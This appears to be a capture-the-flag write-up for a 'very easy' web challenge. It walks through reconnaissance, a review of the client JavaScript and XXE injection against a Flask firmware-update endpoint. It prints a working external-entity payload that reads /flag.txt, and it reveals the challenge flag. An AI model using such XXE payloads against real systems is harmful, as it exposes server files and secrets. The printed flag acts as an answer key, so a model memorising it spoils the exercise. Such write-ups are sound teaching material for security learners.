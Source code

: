 # Challenge: Jailbreak (Web)

## Challenge Overview

**Name:** Jailbreak
**Category:** Web
**Difficulty:** Very Easy

### Description:

The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

---

# Challenge Progress: JailbreaK 

## Recon & Enumeration

### Initial Scanning

```bash
whatweb http://94.237.60.55:31755
```

**Result:**

- Server: Werkzeug (Python 3.12.3)
- Framework: Flask
- Tech stack: Bootstrap, jQuery, HTML5
- Title: PIP-OS(R) V1.33.7

---

## Content Discovery

Manual browsing revealed several interesting endpoints:

- `/flag.txt` → Forbidden
- `/console`, `/debug`, `/vault`, `/firmware`, `/api/`, `/rom` → Some accessible
- `/rom` → Firmware update interface

---

## Source Code Review

Found JS file: `/static/js/update.js`

```javascript
const queueUpdate = async (xmlConfig) => {
    const response = await fetch("/api/update", {
        method: "POST",
        headers: {
            "Content-Type": "application/xml",
        },
        body: xmlConfig
    });
    return await response.json();
};

window.onload = async () => {
    const xmlConfiguration = `<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    </FirmwareUpdateConfig>`;
    $("#configData").val(xmlConfiguration);

    $("#updateBtn").on("click", async () => {
        const msg = await queueUpdate($("#configData").val());
        $("#messageText").text(msg.message);
    });
};
```

This confirms XML is parsed server-side → **XXE attack vector**.

---

## Exploitation - XXE Injection

### Failed Attempt

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root><data>&xxe;</data></root>
```

**Error:**
```
The root element must be 'FirmwareUpdateConfig'.
```

### Working Payload

```xml
<!DOCTYPE FirmwareUpdateConfig [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
    <ReleaseDate>2077-10-21</ReleaseDate>
    <Description>Test</Description>
    <Checksum type="SHA-256">abc</Checksum>
  </Firmware>
</FirmwareUpdateConfig>
```

This payload successfully triggered the file read from `/flag.txt`.

---

## 🏁 Flag

```
HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_d22128d8ecb3f9f9a45cdb341917fb5b}
```

May god with us~